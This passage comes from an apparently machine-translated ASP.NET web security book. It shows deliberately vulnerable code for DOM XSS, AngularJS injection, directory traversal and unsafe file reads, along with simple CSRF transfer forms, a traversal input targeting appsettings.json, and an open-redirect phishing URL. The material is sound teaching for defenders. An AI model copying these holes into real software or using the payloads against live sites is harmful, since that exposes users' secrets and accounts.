<h1>@ViewData["Title"]</h1>
<partial name="_Menu" />
<div class="attack-page-content">
  <p>
    This page unsafely processes text passed back from the↲
    server in order to do the search.
  </p>
  <div>
    <label for="SearchText">Search Text:</label>
    <input type="text" id="SearchText" />
  </div>
  <button onclick="RunSearch();">Search</button>
  <h2>
    You searched for:
    <span id="SearchedFor">@ViewBag.SearchText</span>
  </h2>
  <table width="100%" id="SearchResult">
    <tr>
      <th>ID</th>
      <th>Food Name</th>
      <th>Food Group</th>
      <th>Calories</th>
      <th>Protein</th>
      <th>Fat</th>
      <th>Carbohydrates</th>
    </tr>
  </table>
</div>

@section Scripts
{
  <script>
    function RunSearch() {
      var searchText = $("#SearchText").val();
      ProcessSearch(searchText);
    }

    function ProcessSearch(var searchText) {
      $("#SearchedFor").html(searchText);

      $.ajax({
        type: "POST",
        data: JSON.stringify({ text: searchText }),
        dataType: "json",
        url: "/XSS/SearchByName/",
        success: function (response) {
          ProcessResults(response);
        }
      });
    }

    function ProcessResults(response) {
      //Removed for brevity
    }

    var qs = new URLSearchParams(window.location.search);
    var searchText = urlParams.get('searchText');

    if (searchText != null)
      ProcessSearch(searchText);

  </script>
}

Listing 5-21HTML/JavaScript that is vulnerable to DOM based XSS attacks

```

在清单 [5-21](#PC21) 中，运行一个搜索会将您搜索的文本作为 HTML (不是文本)添加到搜索范围*。但更糟糕的是，这个函数是在页面加载时调用的。<脚本>标签中的最后一件事是在 URL 中查找一个名为“searchText”的参数，如果找到了，页面将使用查询字符串中的值运行搜索文本。这样，XSS 攻击可以在没有任何服务器端处理的情况下发生。*

Note

大多数资料将 XSS 分为三类:反射的、持久的和基于 DOM 的。在场的其他人如何反映或坚持 XSS 之间几乎没有区别——这些都很简单。大多数书包括第三种类型的 XSS: *基于 DOM 的*。基于 DOM 的 XSS 基本上是 XSS，正如我在本节中概述的那样——通过劫持操纵 DOM 的脚本，间接地将您的脚本添加到页面中。你执行脚本的方式和你把脚本放到页面上的方式是不同的，把它们混在一起会让人困惑，所以我在这里提出了一些不同的东西。如果你读另一本书，或者与他人交谈，期望他们思考 XSS 的三个类别，而不仅仅是具有三种不同执行方法的两个类别。

#### JavaScript 框架注入

一种没有得到应有关注的 XSS 是将代码注入到 JavaScript 框架模板中。这与普通 XSS 的区别在于，框架注入不是输入由浏览器直接解释的脚本，而是着重于输入由框架引擎解释的文本。这里有一个例子。

```cs
<div class="attack-page-content" ng-controller=
  "searchController" ng-app="searchApp">
    <p>@Model.SearchText</p>
</div>
<script>
    var app = angular.module('searchApp', []);
    app.controller('searchController', function ($scope) {
        $scope.items = [];
        $scope.alert = function () {
            alert("Hello");
        };
    });
</script>

Listing 5-22Code vulnerable to Framework Injection (AngularJS)

```

如果攻击者能够在清单 [5-22](#PC22) 中的代码中输入“{{alert()}}”作为 SearchText，页面将使用该文本呈现，AngularJS 引擎会将该文本解释为要解释的文本。

Caution

总的来说，ASP.NET 在防范 XSS 袭击方面做得很好。它不做任何事情来防止这种类型的 JavaScript 框架注入，所以要特别注意这种类型的 XSS。

#### 第三方库

另一个在 web 开发界没有得到足够重视的跨站点脚本的可能来源是包含第三方库。以下是黑客利用第三方脚本对网站进行 XSS 攻击的两种方式:

*   如果您的脚本使用外部提供者(通常通过内容交付网络，或 CDN，例如，如果您使用如下所示的 URL 从微软获取 jQuery:[`https://ajax.aspnetcdn.com/ajax/jQuery/jquery-3.4.1.min.js`](https://ajax.aspnetcdn.com/ajax/jQuery/jquery-3.4.1.min.js))，黑客可以用他们自己的 JavaScript 文件替换内容提供者的副本，除非在文件中包含一些恶意脚本。请记住，内容提供商也不能免受黑客攻击。

*   如果您下载一个 JavaScript 库，库的创建者可能在下载中包含了恶意脚本。如果黑客设法将他们自己的代码添加到下载中，就可能发生这种情况，就像前面的例子一样，或者他们可能自己创建了整个库，目的是让您下载并使用该文件。

如果您使用的是最流行的第三方库之一，那么您基本上是安全的，因为这些库非常重视安全性。但是有一些技术可以告诉浏览器检查这些文件的完整性，我将在本书的后面向您展示。

### XSS 的后果

我已经远离，并将继续远离，深入利用漏洞。但是，我想花一点时间来研究一下 XSS 攻击可能造成的一些后果，让大家了解一下这是一个多么严重的漏洞。

正如我在本章开始时提到的，有一个免费的开源工具叫做浏览器开发框架，或简称 BeEF，它使利用 XSS 漏洞变得非常容易。下面是它能做的几件事: <sup>[7](#Fn7)</sup>

*   获取有关用户系统的信息(操作系统、浏览器、屏幕尺寸等)。)

*   将用户重定向到黑客选择的页面

*   用黑客选择的内容替换页面上的内容

*   检测机器上安装的软件

*   运行用户网络扫描

*   查看用户登录了哪些社交网络

*   试图侵入你的路由器

*   试图劫持您的网络摄像头

*   我个人最喜欢的是:让一个看起来像 Clippy 的人问你是否要更新你的浏览器，然后如果用户点击是，就发送一个病毒而不是更新浏览器

你可能已经知道(或者已经猜到)XSS 可以被用来篡改网站或者窃取浏览器信息，但是可以运行网络扫描或者入侵你的路由器？是的，XSS 是一个严重的弱点。

BeEF 将帮助您做的另一件事是，在用户不知情或不同意的情况下，代表执行某些操作的用户提交请求。想知道怎么做吗？继续读！

## 跨站点请求伪造(CSRF)

简而言之，跨站点请求伪造或 CSRF 攻击是指攻击者利用用户的会话，在用户不知情或不同意的情况下代表用户发出请求。这是一个非常简单的 CSRF 攻击的例子。

```cs
<a href="https://bank.com/transfer?toAccount=123456&↲
  amount=1000">Win a Free iPad!</a>

Listing 5-23Very simple CSRF attempt

```

清单 [5-23](#PC23) 是怎么回事？

1.  用户看到一个链接(在电子邮件或恶意网站中),上面写着“赢取免费 iPad！！!"

2.  用户点击了这个链接，它向 bank.com 发送了一个向黑客的银行账户转账 1000 美元的请求。

就这样。澄清一下，要使这种攻击奏效，有三件事必须是真的:

1.  用户必须已经登录。如果是，浏览器可以自动发送认证令牌和请求。

2.  站点允许 GET 请求进行如此敏感的操作。这可能是因为 web 开发人员错误地允许 GET 请求或允许值隐藏。

3.  用户单击链接开始该过程。

为了省去用户实际点击链接的麻烦，攻击者可以通过将 URL 放入图像中来触发浏览器发出相同的 GET 请求，如清单 [5-24](#PC24) 所示。

```cs


Listing 5-24CSRF without user intervention

```

对于不允许 get 的端点，您可以只使用一个表单，如清单 [5-25](#PC25) 所示。

```cs
<form action=" https://bank.com/transfer?toAccount=123456&↲
  amount=1000">
  <input type="hidden" name="toAccount" value="123456" />
  <input type="hidden" name="amount" value="1000" />
  <button>Win a FREE iPad!!!</button>
</form>

Listing 5-25Simple CSRF attempt via a form

```

跳过用户干预在这里也相对容易。您可以编写一些 JavaScript 代码，在页面加载完成后提交这个表单。(如果您真的需要，我会让您来编写代码。)

### 绕过反 CSRF 的防御

阻止 CSRF 攻击的最好方法是证明任何帖子都是用户正常浏览的结果。也就是说，任何 POST 都遵循 GET，因为用户请求一个页面，填写一个表单，然后提交它。困难之处在于，由于 Web 是无状态的，作为开发人员，您将令牌存储在哪里，以便验证您获得的值呢？换句话说，作为开发人员，您必须将令牌存储在某个地方，以便验证用户发回的内容。将令牌存储在会话或数据库中当然是一种选择，但这需要相对大量的配置工作。

进入*双提交 Cookie 模式*。双提交 cookie 模式表示可以将令牌存储在两个地方:表单中的隐藏字段，以及 Cookie 或其他头中。理论是，如果表单字段和标题是相同的，并且黑客无法访问标题，因此他们看不到 cookie，那么请求一定是对 GET 的响应。

Note

在这种情况下，需要使用 *httponly* 属性来添加 cookie，这将使黑客无法使用任何 JavaScript 来查找并返回 cookie。

问题是:只要黑客知道 cookie *的名称*是什么——他们可以通过提交表单并检查“有效”请求中的流量来获得——他们就可以从隐藏字段中提取值，添加 cookie，然后提交表单。在这种情况下，服务器看到值是相同的，并认为请求是有效的。

幸运的是，我们。NET 做了一些比这更复杂的事情，使得 CSRF 攻击变得更加困难。我们将在本书的后面讨论这一点，以及如何使 CSRF 保护变得更好。

## 操作系统问题

真正的操作系统安全是一个独立的研究领域。有很多资料会告诉你如何保护你最喜欢的操作系统。相反，我想关注的是通常通过网站对操作系统的攻击。

### 目录遍历

目录遍历是指黑客访问服务器上您不想暴露的文件的能力。要了解这是如何发生的，让我们看一个漏洞自助的例子。第一，前端。

```cs
@{
    ViewData["Title"] = "File Inclusion";
}
@model AccountUserViewModel

<partial name="_Menu" />
<div class="attack-page-content">
  <h1>@ViewData["Title"]</h1>
  <p>This page loads files in an unsafe way.</p>

  <form action="/Miscellaneous/FileInclusion" method="post">
    <div>
      <label asp-for="SearchText">
        Select a product below to see more information:
      </label>
      <select asp-for="SearchText">
        <option value="babyfoods.txt">Baby Foods</option>
        <option value="baked.txt">Baked Products</option>
        <option value="beef.txt">Beef Products</option>
        <option value="beverages.txt">Beverages</option>
        <option value="breakfastcereals.txt">
          Breakfast Cereals
        </option>
        <option value="cerealgrains.txt">
          Cereal Grains and Pasta
        </option>
      </select>
      <button type="submit">Search!</button>
    </div>
  </form>
  <div>@ViewBag.FileContents</div>
</div>

Listing 5-26Front end for a page vulnerable to Directory Traversal attacks

```

清单 [5-26](#PC26) 中的页面允许用户在下拉列表中选择一个项目，这将把一个文件名发送回服务器。控制器方法获取文件的内容并将其添加到`@ViewBag.FileContents`。

如果您正在检查代码的安全漏洞，下拉选项都以“.”结尾。txt”是一个巨大的警告信号，表明不安全的文件处理正在发生。事实上，文件是不安全处理的，正如我们在清单 [5-27](#PC27) 中看到的。

```cs
[HttpPost]
public IActionResult FileInclusion(AccountUserViewModel model)
{
  var fullFilePath = _hostEnv.ContentRootPath +
                      "\\wwwroot\\text\\" + model.SearchText;
  var fileContents = System.IO.File.ReadAllText(fullFilePath);
  ViewBag.FileContents = fileContents;

  return View(model);
}

Listing 5-27Controller method for page vulnerable to Directory Traversal attacks

```

表面上，您可能认为这段代码只接受文件名，在服务器上的特定文件夹中查找具有该名称的文件，读取内容，然后将内容添加到页面中。但是请记住"..\ "告诉文件路径上移一个文件。那么，如果攻击者发送“..\..\appsettings.json "而不是下拉选项之一？您猜对了，攻击者可以看到您在配置中的任何设置，包括数据库连接字符串和您可能拥有的任何其他秘密。

除了读取配置文件，不难想象攻击者试图输入更多的指令来上移一个文件夹，然后进入 C:\windows 来读取服务器上的各种文件。

### 远程和本地文件包含

远程文件包含(RFI)和本地文件包含(LFI)都类似于目录遍历，因为攻击者能够在您的服务器上找到文件。RFI 和 LFI 都更进一步，当黑客能够在你的服务器上执行他们选择的文件时就会发生。主要区别在于，LFI 涉及已经在服务器上的文件，而 RFI 涉及已经上传到服务器上的文件。

如果您在网上寻找这两种情况的例子，您可能会发现 PHP 中的这种漏洞比. NET 中的多得多。这也是因为这种攻击在 PHP 中比在. NET 中更容易实现。不过，您应该注意这一点，因为您很可能使用批处理脚本或 PowerShell 调用外部应用，如果编写得不好，这两者都可能被劫持来执行代码。

### 操作系统命令注入

另一种攻击是操作系统命令注入，正如您可能猜到的那样，这是一个漏洞，攻击者可以在您的服务器上执行操作系统命令。像 RFI 一样，这在不太安全的语言中比在。但是从您的网站启动任何进程时都要非常小心，尤其是使用批处理或 PowerShell 脚本时。

### 文件上传和文件管理

虽然让用户能够上传文件本身并不是一个漏洞，但几乎可以肯定地说，绝大多数允许用户上传文件的网站并不安全。虽然 LFI 不是一个大问题。NET 和其他语言一样，仍然有一些与文件相关的攻击需要注意:

*   **拒绝服务**:如果你允许大文件上传，攻击者可能会试图上传一个服务器无法处理的非常大的文件，导致你的网站瘫痪。

*   LFI:能够上传恶意文件到你的服务器会导致一个更严重的漏洞，如果攻击者能够使用或执行那个文件的话。

*   **GIFAR**:GIFAR 是一个既是有效 GIF 又是有效 JAR (Java Archive)的文件，10 年前，攻击者能够利用 GIFAR 窃取凭证。 <sup>[8](#Fn8)</sup> 从那以后，攻击者就可以结合其他文件类型， <sup>[9](#Fn9)</sup> 让攻击者更容易绕过一些防御。

幸运的是，有一些方法可以减轻这些攻击，我将在本书的后面向您展示。

Caution

文件上传还有另一个问题，本质上不是攻击，但是需要注意。在我变得聪明并在不同的服务器上存储文件之前，我的网站因为驱动器空间不足而关闭，因为我没有注意上传的文件数量。是的，复数“网站”的意图。所以，一定要把你的文件放在不同于你的网络服务器的服务器上，并且记录下你还剩多少空间。当你的网站关闭时，试图进入一个空间不足的服务器并不好玩。

## 其他注射类型

一旦了解了注入的工作原理，就很容易想象如何将代码注入到其他语言中，比如 XML、XPath 或 LDAP。我在上一章中提到的 XML 外部实体或 XXE 可以被认为是另一种类型的注入。我不会在这里进行更多的举例，但是我希望你明白这个意思。

## 点击劫持

我在第 4 章谈到标题时简单提到了这一点，但是攻击者可以在他们的< iframe >中加载你的站点，然后用不同的用户界面隐藏它。例如，假设我想在你的网站上发垃圾邮件，提供购买我的书的链接。我会创建一个网站，在你的上面有一个用户界面，覆盖你的“评论”按钮，我可以放一个按钮，上面写着“点击这里，赢得一个免费的 iPad！”。点击这个链接的用户会认为他们在参加一个竞赛，但实际上他们点击的是你网站上的一个按钮，这个按钮会发布一个带有购买我的书链接的评论。

## 未验证的重定向

在 ASP.NET 的所有版本中，当您尝试访问需要认证但未登录的页面时，默认功能是将您重定向到登录页面。但是为了提高可用性，这款应用会将你重定向回你试图查看的页面。以下是整个过程:

1.  用户试图查看需要认证的页面，如 [`www.bank.com/account`](http://www.bank.com/account) 。

2.  应用发现用户没有登录，因此将用户重定向到登录页面，并附加“？returnUrl=%2Faccount "到 Url 的末尾。

3.  用户输入他们的用户名和密码，由服务器验证是否有效。

4.  服务器将用户重定向到“/account”，这样用户就可以继续他们试图做的事情。

正如我提到的，这是非常标准的。但是如果服务器在重定向用户之前没有验证路径是否正确呢？这是一个非常容易实现的攻击场景:

1.  攻击者向用户发送一封网络钓鱼电子邮件，声称他们的银行帐户有问题，他们需要单击电子邮件中的链接来立即验证他们的帐户。

2.  受过网络钓鱼攻击训练的用户查看 URL 以验证银行域是正确的(但忽略查询字符串)，并点击该 URL: [`https://bank.com/login?returnUrl=https://benk.com/login`](https://bank.com/login?returnUrl=https://benk.com/login) 。

3.  用户登录到他们的账户，然后被重定向到 [`https://benk.com/login`](https://benk.com/login) ，一眼看上去就像他们的登录页面。

4.  用户认为只是登录过程中出现了一些奇怪的小故障，于是登录了假冒的“benk.com”网站，向黑客提供了用户的用户名和银行账户密码。

5.  然后，黑客的网站将用户重定向回正确的银行网站，由于用户在步骤 3 中正确登录，因此可以查看他们的帐户，而不会出现任何问题。

这次攻击是由*未经验证的重定向*带给您的。你不应该盲目地接受用户输入，简单地将用户重定向到没有任何检查或保护的页面，否则你会让你的用户遭受网络钓鱼攻击(或者更糟)。

## 会话劫持

当满足以下三个条件之一时，会话劫持(即窃取他人的会话令牌)就很常见:

1.  会话或用户令牌是连续的和/或容易猜测的。

2.  会话或用户令牌存储在查询字符串中，使得黑客很容易通过网络钓鱼攻击劫持不同用户的会话。

3.  会话或用户令牌被重用。

ASP.NET 不使用容易猜到的令牌，他们用安全 cookies 存储令牌，所以前两个问题都不适用。用户令牌是特定于用户的，会话令牌的生成方式使得它们很难重新创建，所以这里没有问题，对吗？

不幸的是，正如您从上一章回忆起的以及在后面的章节中看到的，ASP.NET 处理会话和用户令牌的方式存在一些相当大的问题。对于不存储大量敏感信息的站点，您也许可以使用默认的用户令牌处理机制；如果你要储存 PII、PAI 或 PHI，你会想要更坚固的东西。

Caution

稍后，我将向您展示用户令牌处理在 ASP.NET 是如何不安全的，以及如何修复它。但是 ASP.NET Core 的会话处理更糟糕。会话令牌是根据*浏览器*会话创建的，而不是根据*用户*会话创建的。这是什么意思？如果一个用户登录到您的站点，生成一个会话，然后注销，那么第二个用户登录到该站点(或者不登录，严格来说没有必要)，并且可以访问为第一个用户存储的**任何和所有**会话数据。我将在本书的后面向您展示如何解决这个问题，但同时，**不要在会话**中存储任何敏感数据。永远不会。

## 安全问题大多在 ASP.NET 得到解决

虽然有几个安全问题在 ASP.NET 已经基本得到缓解，但是有几个问题您可能根本不需要太担心。但是，您应该知道这些问题存在的原因如下:

1.  您可能需要为一些特殊的功能创建您自己版本的内置功能，并且您应该了解这些漏洞以避免它们。

2.  在第 9 章中，我将向你展示 ASP.NET 是如何忽视这些攻击的。一方面，如果这些攻击被忽略，那么它们就不会成功。但另一方面，你难道不应该想知道是否有人试图闯入你的网站吗？

### 动词篡改

到目前为止，当谈到请求时，我指的是两种类型之一:GET 或 POST。正如我前面简要提到的，还有其他几种类型可供您使用。旧的 web 服务器在处理带有意外动词的请求时会有困难。举一个常见的例子，服务器在运行 GET 请求时可能会强制进行认证，但是在通过 HEAD 运行相同的请求时可能会绕过认证。然而，我不知道 ASP.NET 有任何与动词篡改相关的可利用的漏洞。

### 响应分裂

如果黑客能够在你的标题中加入换行符/回车符，那么你的网站就容易受到*响应分裂*的攻击。以下是它的工作原理:

1.  攻击者提交一个他们知道将放入您的头(通常是一个 cookie)中的值，该值包括回车/换行字符，设置内容长度，以及他们想要的任何内容。

2.  您将这些值添加到 cookie 中，cookie 将它们添加到标题中。

3.  用户看到的是黑客的内容，不是你的。

以下是该响应的样子，攻击者的文本以粗体显示。

```cs
HTTP/1.1 200 OK
<<redacted>>
Set-Cookie: somevalue=blue\r\n
Content-Length: 500\r\n
\r\n
<html>
<<attacker's content here which the user sees>>
</html>
(500 characters later)
<<your original content, ignored by the browser>>

Listing 5-28Hypothetical response splitting attack response

```

我试图将清单 [5-28](#PC28) 中看到的漏洞引入 ASP.NET Core 漏洞库，但发现我必须拥有自己的 Kestrel 修改版才能做到这一点。这应该不是你需要担心的事情，除非你修改了 Kestrel。(请不要这样做。)

### 参数污染

*参数污染*指的是一个漏洞，如果 web 服务器遇到意外的参数，如重复的查询字符串关键字，应用会以意外的方式运行。想象一个场景，删除一个用户可以在这样的 URL 中完成: [`https://your-site.com/users/delete?userId=44`](https://your-site.com/users/delete%253FuserId%253D44) 。如果您的站点容易受到参数污染，如果攻击者能够附加到这个 URL，他们可以这样做: [`https://your-site.com/users/delete?userId=44&userId=1`](https://your-site.com/users/delete?userId%253D44%2526userId%253D1) ，并让您删除 ID 为“1”的用户。

默认情况下，当 ASP.NET 遇到这种情况时，它保持第一个值，这是更安全的路线。一个更好的解决方案是失败关闭拒绝请求，因为这可能很危险，但是现在我们需要满足于只接受第一个值的适当解决方案。

## 业务逻辑滥用

本章中我要讨论的最后一个话题是业务逻辑滥用。业务逻辑滥用是一个很难在一本书中涵盖的话题，因为它不仅包含了广泛的问题，而且大多数问题都是特定于特定的 web 应用的。我们之前已经讨论过其中的一些问题，例如确保不要在隐藏字段中存储私人信息，或者不要期望用户更改查询字符串来尝试访问不在他们列表中的对象。还有其他的，比如在允许用户访问你的网站之前不执行用户协议，或者允许用户通过定期删除 cookie 来绕过页面浏览限制。

除了说“不要相信用户的输入”，你能做的最好的事情就是雇人尝试侵入你的网站，试图找到这些问题。稍后我会给你一些粗略的指导方针，告诉你在外部渗透测试中应该寻找什么，因为有很多不太熟练或不道德的渗透测试人员。

## 摘要

在这一章中，我深入探讨了针对您网站的攻击，认为您对攻击的工作原理了解得越多，您就能越好地设计防御措施。

您现在应该对网站安全有了扎实的了解。虽然还有更多的东西需要学习，但是您现在已经准备好开始学习如何在您的网站中实施针对这些攻击的防御措施了。

<aside aria-label="Footnotes" class="FootnoteSection" epub:type="footnotes">Footnotes [1](#Fn1_source)

[T2`https://beefproject.com/`](https://beefproject.com/)

  [2](#Fn2_source)

[T2`https://github.com/ScottNorberg-NCG/VulnerabilityBuffet/blob/master/AspNetCore/NCG.SecurityDetection.VulnerabilityBuffet/Controllers/SQLController.cs`](https://github.com/ScottNorberg-NCG/VulnerabilityBuffet/blob/master/AspNetCore/NCG.SecurityDetection.VulnerabilityBuffet/Controllers/SQLController.cs)

  [3](#Fn3_source)

[T2`http://sqlmap.org/`](http://sqlmap.org/)

  [4](#Fn4_source)

[T2`https://github.com/ScottNorberg-NCG/VulnerabilityBuffet/blob/master/AspNetCore/NCG.SecurityDetection.VulnerabilityBuffet/Controllers/AuthOnlyController.cs`](https://github.com/ScottNorberg-NCG/VulnerabilityBuffet/blob/master/AspNetCore/NCG.SecurityDetection.VulnerabilityBuffet/Controllers/AuthOnlyController.cs)

  [5](#Fn5_source)

[T2`https://twitter.com/0xInfection/status/1213805670996168704?s=20`](https://twitter.com/0xInfection/status/1213805670996168704%253Fs%253Dd20)

  [6](#Fn6_source)

[T2`https://github.com/ScottNorberg-NCG/VulnerabilityBuffet/blob/master/AspNetCore/NCG.SecurityDetection.VulnerabilityBuffet/Views/XSS/JQuery.cshtml`](https://github.com/ScottNorberg-NCG/VulnerabilityBuffet/blob/master/AspNetCore/NCG.SecurityDetection.VulnerabilityBuffet/Views/XSS/JQuery.cshtml)

  [7](#Fn7_source)

[T2`https://github.com/beefproject/beef/wiki/BeEF-modules`](https://github.com/beefproject/beef/wiki/BeEF-modules)

  [8](#Fn8_source)

[T2`https://www.infoworld.com/article/2653025/a-photo-that-can-steal-your-online-credentials.html`](https://www.infoworld.com/article/2653025/a-photo-that-can-steal-your-online-credentials.html)

  [9](#Fn9_source)

[T2`http://www.cse.chalmers.se/~andrei/ccs13.pdf`](http://www.cse.chalmers.se/%257Eandrei/ccs13.pdf)

  [10](#Fn10_source)

[T2`https://resources.infosecinstitute.com/http-verb-tempering-bypassing-web-authentication-and-authorization/`](https://resources.infosecinstitute.com/http-verb-tempering-bypassing-web-authentication-and-authorization/)

 </aside>